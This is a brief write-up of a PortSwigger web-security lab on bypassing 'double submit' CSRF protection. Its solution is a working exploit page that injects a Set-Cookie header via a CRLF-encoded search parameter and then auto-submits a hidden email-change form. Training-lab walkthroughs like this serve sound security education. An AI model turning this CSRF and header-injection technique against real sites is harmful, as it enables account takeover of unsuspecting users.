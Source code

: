 # [Lab: CSRF where token is duplicated in cookie](https://portswigger.net/web-security/csrf/lab-token-duplicated-in-cookie)

## Lab

This lab's email change functionality is vulnerable to CSRF. It attempts to use the insecure "double submit" CSRF prevention technique.

To solve the lab, use your exploit server to host an HTML page that uses a CSRF attack to change the viewer's email address.

You can log in to your own account using the following credentials: `wiener:peter`

## Analysis

prevention using two same csrf tokens, one in the cookie and one in the form.

the server validate these token just by checking if its equal.

## Solutions

```html
<html>
<body>
        <form action="https://id.web-security-academy.net/my-account/change-email" method="POST">
            <input type="hidden" name="email" value="hacked@gmail.com" />
            <input required="" type="hidden" name="csrf" value="test">
        </form>

            <img src="https://id.web-security-academy.net/?search=test%0d%0aSet-Cookie:%20csrf=test%3b%20SameSite=None" onerror="document.forms[0].submit()">
    </body>
</html>
```
